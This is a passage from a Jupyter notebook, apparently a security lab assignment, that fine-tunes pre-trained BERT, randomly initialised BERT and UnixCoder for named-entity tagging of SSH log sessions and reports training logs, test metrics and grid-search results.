        'metrics': metrics,
        'per_class_f1': per_class_f1,
        'session_fidelity': session_fidelity,
        'predictions': full_predictions,
        'labels': full_labels
    }

In [65]:
# --- Macro-F1-aware lightweight grid search utilities ---
def run_lightweight_grid_search(
    model_builder,
    train_dataloader,
    eval_dataloader,
    learning_rates,
    epoch_candidates,
    device,
    id2label,
    unique_labels,
    model_name="Model",
    trainable_only=False,
    max_trials=None,
):
    """
    Run a compact hyper-parameter search and pick the best config by validation macro-F1.
    Ties are broken using lower validation loss.
    """
    search_rows = []
    best_entry = None
    trial_count = 0

    for lr in learning_rates:
        for n_epochs in epoch_candidates:
            if max_trials is not None and trial_count >= max_trials:
                break

            trial_count += 1
            trial_name = f"{model_name} | lr={lr} | epochs={n_epochs}"
            print(f"\n--- Grid Trial {trial_count}: {trial_name} ---")

            model = model_builder()
            if trainable_only:
                params = filter(lambda p: p.requires_grad, model.parameters())
            else:
                params = model.parameters()

            optimizer = AdamW(params, lr=lr)
            num_training_steps = n_epochs * len(train_dataloader)
            lr_scheduler = get_scheduler(
                "linear",
                optimizer=optimizer,
                num_warmup_steps=0,
                num_training_steps=num_training_steps,
            )

            best_model_trial, train_losses_trial, val_losses_trial, best_epoch_trial, train_time = train_model(
                model=model,
                train_dataloader=train_dataloader,
                eval_dataloader=eval_dataloader,
                optimizer=optimizer,
                lr_scheduler=lr_scheduler,
                n_epochs=n_epochs,
                device=device,
                id2label=id2label,
                model_name=trial_name,
            )
            print(f"\nTraining time: {train_time:.1f}s")

            val_results_trial = evaluate_model(
                model=best_model_trial,
                test_dataloader=eval_dataloader,
                device=device,
                id2label=id2label,
                unique_labels=unique_labels,
                model_name=f"{trial_name} [Validation]",
            )

            val_macro_f1 = val_results_trial["metrics"]["token_f1"]
            val_loss_at_best_epoch = float(val_losses_trial[best_epoch_trial])

            row = {
                "model": model_name,
                "learning_rate": lr,
                "epochs": n_epochs,
                "best_epoch": best_epoch_trial,
                "val_macro_f1": val_macro_f1,
                "val_loss": val_loss_at_best_epoch,
                "best_model": best_model_trial,
                "train_losses": train_losses_trial,
                "val_losses": val_losses_trial,
            }
            search_rows.append(row)

            if (
                best_entry is None
                or (row["val_macro_f1"] > best_entry["val_macro_f1"])
                or (
                    np.isclose(row["val_macro_f1"], best_entry["val_macro_f1"])
                    and row["val_loss"] < best_entry["val_loss"]
                )
            ):
                best_entry = row
        if max_trials is not None and trial_count >= max_trials:
            break

    search_df = pd.DataFrame([
        {
            "learning_rate": r["learning_rate"],
            "epochs": r["epochs"],
            "best_epoch": r["best_epoch"],
            "val_macro_f1": r["val_macro_f1"],
            "val_loss": r["val_loss"],
        }
        for r in search_rows
    ]).sort_values(["val_macro_f1", "val_loss"], ascending=[False, True]).reset_index(drop=True)

    print(f"\n{model_name} grid-search summary (sorted):")
    print(search_df.to_string(index=False))

    print(
        f"\nSelected config for {model_name}: "
        f"lr={best_entry['learning_rate']}, epochs={best_entry['epochs']}, "
        f"best_epoch={best_entry['best_epoch']}, "
        f"val_macro_f1={best_entry['val_macro_f1']:.4f}, val_loss={best_entry['val_loss']:.4f}"
    )

    return best_entry, search_df

### 3.1 BERT Fine-tuning (Pre-trained)

**Instructions:**
- Load `bert-base-uncased` with pre-trained weights.
- Fine-tune for token classification (NER).
- Report metrics: Token accuracy, macro precision/recall/F1, per-class F1 barplot, and Session Fidelity.

**Q:** Can the model achieve good results with only ~251 training samples?

*Your analysis here*

In [66]:
# --- Prepare BERT tokenizer and data ---
bert_tokenizer = AutoTokenizer.from_pretrained(BERT_MODEL, add_prefix_space=True)

# BERT keeps labels on continuation sub-tokens
tokenize_bert = create_tokenize_and_align_function(bert_tokenizer, label_all_tokens=False)

# Tokenize datasets
original_columns = encoded_dataset["train"].column_names
bert_tokenized_datasets = encoded_dataset.map(
    tokenize_bert,
    batched=True,
    remove_columns=original_columns,
)

print("BERT Tokenized Dataset:")
print(bert_tokenized_datasets)

Map:   0%|          | 0/200 [00:00<?, ? examples/s]

Map:   0%|          | 0/51 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

BERT Tokenized Dataset:
DatasetDict({
    train: Dataset({
        features: ['input_ids', 'token_type_ids', 'attention_mask', 'labels'],
        num_rows: 200
    })
    valid: Dataset({
        features: ['input_ids', 'token_type_ids', 'attention_mask', 'labels'],
        num_rows: 51
    })
    test: Dataset({
        features: ['input_ids', 'token_type_ids', 'attention_mask', 'labels'],
        num_rows: 108
    })
})


In [67]:
# --- Create DataLoaders for BERT ---
bert_data_collator = DataCollatorForTokenClassification(tokenizer=bert_tokenizer)

BATCH_SIZE = 16

bert_train_dataloader = DataLoader(
    bert_tokenized_datasets["train"],
    shuffle=True,
    collate_fn=bert_data_collator,
    batch_size=BATCH_SIZE,
)
bert_eval_dataloader = DataLoader(
    bert_tokenized_datasets["valid"],
    collate_fn=bert_data_collator,
    batch_size=BATCH_SIZE,
)
bert_test_dataloader = DataLoader(
    bert_tokenized_datasets["test"],
    collate_fn=bert_data_collator,
    batch_size=BATCH_SIZE,
)

print(f"Training batches: {len(bert_train_dataloader)}")
print(f"Validation batches: {len(bert_eval_dataloader)}")
print(f"Test batches: {len(bert_test_dataloader)}")

Training batches: 13
Validation batches: 4
Test batches: 7


In [68]:
# --- Load pre-trained BERT model ---
bert_pretrained_model = AutoModelForTokenClassification.from_pretrained(
    BERT_MODEL,
    id2label=id2label,
    label2id=label2id,
)

# Count parameters
total_params = sum(p.numel() for p in bert_pretrained_model.parameters())
trainable_params = sum(p.numel() for p in bert_pretrained_model.parameters() if p.requires_grad)
print(f"BERT Pre-trained Model:")
print(f"  Total parameters: {total_params:,}")
print(f"  Trainable parameters: {trainable_params:,}")

model.safetensors:   0%|          | 0.00/440M [00:00<?, ?B/s]

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

BertForTokenClassification LOAD REPORT from: bert-base-uncased
Key                                        | Status     | 
-------------------------------------------+------------+-
cls.predictions.transform.LayerNorm.weight | UNEXPECTED | 
bert.pooler.dense.bias                     | UNEXPECTED | 
cls.predictions.transform.LayerNorm.bias   | UNEXPECTED | 
cls.predictions.transform.dense.bias       | UNEXPECTED | 
cls.predictions.bias                       | UNEXPECTED | 
cls.predictions.transform.dense.weight     | UNEXPECTED | 
cls.seq_relationship.weight                | UNEXPECTED | 
cls.seq_relationship.bias                  | UNEXPECTED | 
bert.pooler.dense.weight                   | UNEXPECTED | 
classifier.weight                          | MISSING    | 
classifier.bias                            | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized be

BERT Pre-trained Model:
  Total parameters: 108,897,031
  Trainable parameters: 108,897,031


In [69]:
# --- Macro-F1-aware lightweight grid search setup for BERT ---
BERT_GRID_SEARCH = {
    'learning_rates': [4e-5, 6e-5, 7e-5],
    'epochs': [40],
    'max_trials': 3,
}

def build_bert_pretrained_model():
    return AutoModelForTokenClassification.from_pretrained(
        BERT_MODEL,
        id2label=id2label,
        label2id=label2id,
    )

print("BERT grid search space:")
print(BERT_GRID_SEARCH)

BERT grid search space:
{'learning_rates': [4e-05, 6e-05, 7e-05], 'epochs': [40], 'max_trials': 3}


In [70]:
# --- Train BERT model with macro-F1-aware selection ---
_t0 = time.time()
bert_best_entry, bert_grid_df = run_lightweight_grid_search(
    model_builder=build_bert_pretrained_model,
    train_dataloader=bert_train_dataloader,
    eval_dataloader=bert_eval_dataloader,
    learning_rates=BERT_GRID_SEARCH['learning_rates'],
    epoch_candidates=BERT_GRID_SEARCH['epochs'],
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="BERT Pretrained",
    trainable_only=False,
    max_trials=BERT_GRID_SEARCH['max_trials'],
)
bert_train_time = time.time() - _t0

bert_best_model = bert_best_entry['best_model']
bert_train_losses = bert_best_entry['train_losses']
bert_val_losses = bert_best_entry['val_losses']
bert_best_epoch = bert_best_entry['best_epoch']
BERT_LR = bert_best_entry['learning_rate']
BERT_EPOCHS = bert_best_entry['epochs']

bert_grid_results_path = os.path.join(results_path, 'bert_grid_search_results.csv')
bert_grid_df.to_csv(bert_grid_results_path, index=False)
print(f"Saved BERT grid search table: {bert_grid_results_path}")
print(f"\nSelected BERT config -> lr={BERT_LR}, epochs={BERT_EPOCHS}, best_epoch={bert_best_epoch}")
print(f"Total BERT grid search time: {bert_train_time:.1f}s")


--- Grid Trial 1: BERT Pretrained | lr=4e-05 | epochs=40 ---


Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

BertForTokenClassification LOAD REPORT from: bert-base-uncased
Key                                        | Status     | 
-------------------------------------------+------------+-
cls.predictions.transform.LayerNorm.weight | UNEXPECTED | 
bert.pooler.dense.bias                     | UNEXPECTED | 
cls.predictions.transform.LayerNorm.bias   | UNEXPECTED | 
cls.predictions.transform.dense.bias       | UNEXPECTED | 
cls.predictions.bias                       | UNEXPECTED | 
cls.predictions.transform.dense.weight     | UNEXPECTED | 
cls.seq_relationship.weight                | UNEXPECTED | 
cls.seq_relationship.bias                  | UNEXPECTED | 
bert.pooler.dense.weight                   | UNEXPECTED | 
classifier.weight                          | MISSING    | 
classifier.bias                            | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized be

Training BERT Pretrained | lr=4e-05 | epochs=40:   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 0: acc=0.7503, f1=0.3236, val_loss=0.7683
Epoch 1: acc=0.7814, f1=0.3600, val_loss=0.5894
Epoch 2: acc=0.8066, f1=0.3891, val_loss=0.5204
Epoch 3: acc=0.8213, f1=0.4200, val_loss=0.4446
Epoch 4: acc=0.8219, f1=0.4483, val_loss=0.4218
Epoch 5: acc=0.8514, f1=0.5508, val_loss=0.3807
Epoch 6: acc=0.8464, f1=0.5332, val_loss=0.3766
Epoch 7: acc=0.8464, f1=0.5371, val_loss=0.4170
Epoch 8: acc=0.8601, f1=0.6004, val_loss=0.4049
Epoch 9: acc=0.8645, f1=0.5687, val_loss=0.4053
Epoch 10: acc=0.8617, f1=0.5895, val_loss=0.4785
Epoch 11: acc=0.8743, f1=0.5976, val_loss=0.3715
Epoch 12: acc=0.8590, f1=0.5752, val_loss=0.6227
Epoch 13: acc=0.8612, f1=0.5772, val_loss=0.4868
Epoch 14: acc=0.8656, f1=0.5914, val_loss=0.4632
Epoch 15: acc=0.8656, f1=0.5977, val_loss=0.5471
Epoch 16: acc=0.8667, f1=0.6106, val_loss=0.5910
Epoch 17: acc=0.8689, f1=0.6040, val_loss=0.5211
Epoch 18: acc=0.8694, f1=0.6031, val_loss=0.5256
Epoch 19: acc=0.8667, f1=0.6055, val_loss=0.5786
Epoch 20: acc=0.8705, f1=0.597

...

BertForTokenClassification LOAD REPORT from: bert-base-uncased
Key                                        | Status     | 
-------------------------------------------+------------+-
cls.predictions.transform.LayerNorm.weight | UNEXPECTED | 
bert.pooler.dense.bias                     | UNEXPECTED | 
cls.predictions.transform.LayerNorm.bias   | UNEXPECTED | 
cls.predictions.transform.dense.bias       | UNEXPECTED | 
cls.predictions.bias                       | UNEXPECTED | 
cls.predictions.transform.dense.weight     | UNEXPECTED | 
cls.seq_relationship.weight                | UNEXPECTED | 
cls.seq_relationship.bias                  | UNEXPECTED | 
bert.pooler.dense.weight                   | UNEXPECTED | 
classifier.weight                          | MISSING    | 
classifier.bias                            | MISSING    | 

Notes:
- UNEXPECTED	:can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING	:those params were newly initialized be

Training BERT Pretrained | lr=7e-05 | epochs=40:   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 0: acc=0.7574, f1=0.3463, val_loss=0.6846
Epoch 1: acc=0.7760, f1=0.3642, val_loss=0.5827
Epoch 2: acc=0.8142, f1=0.3999, val_loss=0.4882
Epoch 3: acc=0.8290, f1=0.4742, val_loss=0.4916
Epoch 4: acc=0.8426, f1=0.5379, val_loss=0.4684
Epoch 5: acc=0.8470, f1=0.5617, val_loss=0.4927
Epoch 6: acc=0.8514, f1=0.5426, val_loss=0.5017
Epoch 7: acc=0.8530, f1=0.5769, val_loss=0.5003
Epoch 8: acc=0.8563, f1=0.5897, val_loss=0.4727
Epoch 9: acc=0.8667, f1=0.5985, val_loss=0.5933
Epoch 10: acc=0.8628, f1=0.5895, val_loss=0.5485
Epoch 11: acc=0.8634, f1=0.5982, val_loss=0.5817
Epoch 12: acc=0.8645, f1=0.5990, val_loss=0.6358
Epoch 13: acc=0.8601, f1=0.5734, val_loss=0.6015
Epoch 14: acc=0.8568, f1=0.5987, val_loss=0.5764
Epoch 15: acc=0.8617, f1=0.5917, val_loss=0.6295
Epoch 16: acc=0.8645, f1=0.6021, val_loss=0.6301
Epoch 17: acc=0.8617, f1=0.6077, val_loss=0.6664
Epoch 18: acc=0.8475, f1=0.5674, val_loss=0.5909
Epoch 19: acc=0.8355, f1=0.5966, val_loss=0.7772
Epoch 20: acc=0.8579, f1=0.603

Evaluating BERT Pretrained | lr=7e-05 | epochs=40 [Validation]:   0%|          | 0/4 [00:00<?, ?it/s]


BERT Pretrained | lr=7e-05 | epochs=40 [Validation] Test Results:
Token Accuracy:   84.26%
Token Precision:  67.86%
Token Recall:     51.05%
Token F1 (Macro):  53.79%
Session Fidelity:  71.74%

BERT Pretrained grid-search summary (sorted):
 learning_rate  epochs  best_epoch  val_macro_f1  val_loss
       0.00004      40          11      0.597604  0.371476
       0.00006      40           7      0.595268  0.464441
       0.00007      40           4      0.537881  0.468353

Selected config for BERT Pretrained: lr=4e-05, epochs=40, best_epoch=11, val_macro_f1=0.5976, val_loss=0.3715
Saved BERT grid search table: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/bert_grid_search_results.csv

Selected BERT config -> lr=4e-05, epochs=40, best_epoch=11
Total BERT grid search time: 1954.1s


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/bert_pretrained_losses.png




In [71]:
# --- Plot BERT training progress ---
plot_training_stats("BERT Pretrained", bert_train_losses, bert_val_losses, bert_best_epoch, save_path=save_dir)

In [72]:
# --- Evaluate BERT model on test set ---
bert_results = evaluate_model(
    model=bert_best_model,
    test_dataloader=bert_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="BERT Pretrained"
)

Evaluating BERT Pretrained:   0%|          | 0/7 [00:00<?, ?it/s]


BERT Pretrained Test Results:
Token Accuracy:   90.90%
Token Precision:  80.74%
Token Recall:     68.31%
Token F1 (Macro):  72.64%
Session Fidelity:  86.54%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/bert_pretrained_per_class_f1.png




In [73]:
# --- Plot per-class F1 scores for BERT ---
plot_per_class_f1(bert_results['per_class_f1'], "BERT Pretrained", save_path=save_dir)

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/bert_pretrained_confusion_matrix.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/bert_pretrained_confusion_matrix_normalized.png




In [74]:
# --- Plot confusion matrices for BERT ---
plot_confusion_matrix(bert_results['predictions'], bert_results['labels'], id2label,
                      "BERT Pretrained", normalize=False, save_path=save_dir)
plot_confusion_matrix(bert_results['predictions'], bert_results['labels'], id2label,
                      "BERT Pretrained", normalize=True, save_path=save_dir)

### 3.2 Baseline: "Naked" BERT (No Pre-training)

**Instructions:**
- Load BERT architecture *without* pre-trained weights (random initialization).
- Train end-to-end and compare performance against the pre-trained version.

**Q:** How much does pre-training help compared to training from scratch?

*Your analysis here*

In [75]:
# --- Load BERT model WITHOUT pre-trained weights (random initialization) ---
# Get the configuration
bert_config = AutoConfig.from_pretrained(
    BERT_MODEL,
    id2label=id2label,
    label2id=label2id,
)

# Initialize model with random weights using the configuration
bert_naked_model = AutoModelForTokenClassification.from_config(bert_config)

total_params = sum(p.numel() for p in bert_naked_model.parameters())
print(f"'Naked' BERT Model (random initialization):")
print(f"  Total parameters: {total_params:,}")

'Naked' BERT Model (random initialization):
  Total parameters: 108,897,031


In [76]:
# --- Training configuration for Naked BERT ---
NAKED_BERT_LR = 5e-5
NAKED_BERT_EPOCHS = 40

naked_bert_optimizer = AdamW(bert_naked_model.parameters(), lr=NAKED_BERT_LR)

num_training_steps = NAKED_BERT_EPOCHS * len(bert_train_dataloader)
naked_bert_lr_scheduler = get_scheduler(
    "linear",
    optimizer=naked_bert_optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)

In [77]:
# --- Train Naked BERT model ---

naked_bert_best_model, naked_bert_train_losses, naked_bert_val_losses, naked_bert_best_epoch, train_time = train_model(
    model=bert_naked_model,
    train_dataloader=bert_train_dataloader,
    eval_dataloader=bert_eval_dataloader,
    optimizer=naked_bert_optimizer,
    lr_scheduler=naked_bert_lr_scheduler,
    n_epochs=NAKED_BERT_EPOCHS,
    device=device,
    id2label=id2label,
    model_name="Naked BERT"
)
naked_bert_train_time = train_time

print(f"\nTraining time: {train_time:.1f}s")
print(f"\nBest epoch: {naked_bert_best_epoch}")

Training Naked BERT:   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 0: acc=0.4497, f1=0.0886, val_loss=1.3784
Epoch 1: acc=0.6623, f1=0.2104, val_loss=1.0183
Epoch 2: acc=0.6956, f1=0.3130, val_loss=0.8423
Epoch 3: acc=0.7432, f1=0.3330, val_loss=0.8026
Epoch 4: acc=0.7645, f1=0.3642, val_loss=0.6460
Epoch 5: acc=0.7519, f1=0.4109, val_loss=0.7276
Epoch 6: acc=0.7661, f1=0.4825, val_loss=0.6578
Epoch 7: acc=0.7913, f1=0.4573, val_loss=0.5280
Epoch 8: acc=0.7880, f1=0.4729, val_loss=0.5180
Epoch 9: acc=0.7792, f1=0.4947, val_loss=0.7319
Epoch 10: acc=0.7951, f1=0.4808, val_loss=0.5357
Epoch 11: acc=0.8022, f1=0.4957, val_loss=0.6039
Epoch 12: acc=0.8060, f1=0.5267, val_loss=0.5534
Epoch 13: acc=0.8071, f1=0.5191, val_loss=0.5110
Epoch 14: acc=0.8011, f1=0.5009, val_loss=0.6108
Epoch 15: acc=0.8071, f1=0.5244, val_loss=0.5321
Epoch 16: acc=0.8208, f1=0.5012, val_loss=0.5574
Epoch 17: acc=0.8000, f1=0.4719, val_loss=0.5660
Epoch 18: acc=0.7896, f1=0.5085, val_loss=0.6672
Epoch 19: acc=0.8148, f1=0.5123, val_loss=0.5367
Epoch 20: acc=0.8131, f1=0.521

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/naked_bert_losses.png




In [78]:
# --- Plot Naked BERT training progress ---
plot_training_stats("Naked BERT", naked_bert_train_losses, naked_bert_val_losses,
                    naked_bert_best_epoch, save_path=save_dir)

In [79]:
# --- Evaluate Naked BERT model on test set ---
naked_bert_results = evaluate_model(
    model=naked_bert_best_model,
    test_dataloader=bert_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="Naked BERT"
)

Evaluating Naked BERT:   0%|          | 0/7 [00:00<?, ?it/s]


Naked BERT Test Results:
Token Accuracy:   78.30%
Token Precision:  58.20%
Token Recall:     53.75%
Token F1 (Macro):  54.96%
Session Fidelity:  74.20%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/naked_bert_per_class_f1.png




In [80]:
# --- Plot per-class F1 scores for Naked BERT ---
plot_per_class_f1(naked_bert_results['per_class_f1'], "Naked BERT", save_path=save_dir)

### 3.3 UnixCoder Fine-tuning

**Instructions:**
- Fine-tune `microsoft/unixcoder-base`.
- Compare performance with BERT.

**Q:** Does the code-specific pre-training yield better results on SSH logs?

*Your analysis here*

In [81]:
# --- Prepare UnixCoder tokenizer and data ---
unixcoder_tokenizer = AutoTokenizer.from_pretrained(UNIXCODER_MODEL, add_prefix_space=True)

# UniXcoder uses first-subtoken labels to reduce sub-token noise
tokenize_unixcoder = create_tokenize_and_align_function(unixcoder_tokenizer, label_all_tokens=False)

# Tokenize datasets
unix_tokenized_datasets = encoded_dataset.map(
    tokenize_unixcoder,
    batched=True,
    remove_columns=original_columns,
)

print("UnixCoder Tokenized Dataset:")
print(unix_tokenized_datasets)

Map:   0%|          | 0/200 [00:00<?, ? examples/s]

Map:   0%|          | 0/51 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

UnixCoder Tokenized Dataset:
DatasetDict({
    train: Dataset({
        features: ['input_ids', 'attention_mask', 'labels'],
        num_rows: 200
    })
    valid: Dataset({
        features: ['input_ids', 'attention_mask', 'labels'],
        num_rows: 51
    })
    test: Dataset({
        features: ['input_ids', 'attention_mask', 'labels'],
        num_rows: 108
    })
})


In [82]:
# --- Create DataLoaders for UnixCoder ---
unix_data_collator = DataCollatorForTokenClassification(tokenizer=unixcoder_tokenizer)

unix_train_dataloader = DataLoader(
    unix_tokenized_datasets["train"],
    shuffle=True,
    collate_fn=unix_data_collator,
    batch_size=BATCH_SIZE,
)
unix_eval_dataloader = DataLoader(
    unix_tokenized_datasets["valid"],
    collate_fn=unix_data_collator,
    batch_size=BATCH_SIZE,
)
unix_test_dataloader = DataLoader(
    unix_tokenized_datasets["test"],
    collate_fn=unix_data_collator,
    batch_size=BATCH_SIZE,
)

In [83]:
